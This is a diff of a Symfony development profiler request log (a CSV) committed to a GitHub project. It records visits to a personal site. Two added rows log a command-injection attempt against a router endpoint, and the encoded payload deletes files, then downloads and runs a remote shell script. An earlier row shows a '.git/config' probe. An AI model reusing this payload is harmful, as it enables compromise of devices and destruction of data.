

Before and after one commit to pjoron/SymfonyS6, a CSV file: var/cache/dev/profiler/index.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/var/cache/dev/profiler/index.csv
+++ b/var/cache/dev/profiler/index.csv
@@ -542 +542,10 @@ a65225,193.32.162.87,GET,https://gotenberg.pauljoron.fr/downloads/.git/config,17
 a3026c,31.94.60.36,GET,https://gotenberg.pauljoron.fr/,1708614189,,200,request
+50830b,84.17.42.47,GET,https://gotenberg.pauljoron.fr/,1708614420,,200,request
+dfe527,15.237.246.94,GET,https://gotenberg.pauljoron.fr/,1708614420,,200,request
+e71ec8,149.40.50.86,GET,https://gotenberg.pauljoron.fr/,1708614420,,200,request
+37980b,146.190.197.169,GET,https://gotenberg.pauljoron.fr/,1708614420,,200,request
+df1bec,31.94.60.36,GET,https://gotenberg.pauljoron.fr/,1708614420,,200,request
+7376b4,149.40.50.86,GET,https://gotenberg.pauljoron.fr/favicon.ico,1708614460,b2e1f9,404,request
+b2e1f9,149.40.50.86,GET,https://gotenberg.pauljoron.fr/favicon.ico,1708614460,,404,request
+8516bd,185.224.128.200,GET,https://185.216.26.211/cgi-bin/luci/;stok=/locale?country=%24%28rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F107.175.3.29%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh%29&form=country&operation=write,1708614908,cbd6e0,404,request
+cbd6e0,185.224.128.200,GET,https://185.216.26.211/cgi-bin/luci/;stok=/locale?country=%24%28rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F107.175.3.29%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh%29&form=country&operation=write,1708614908,,404,request
```
Also changed, not shown: 14 other files.
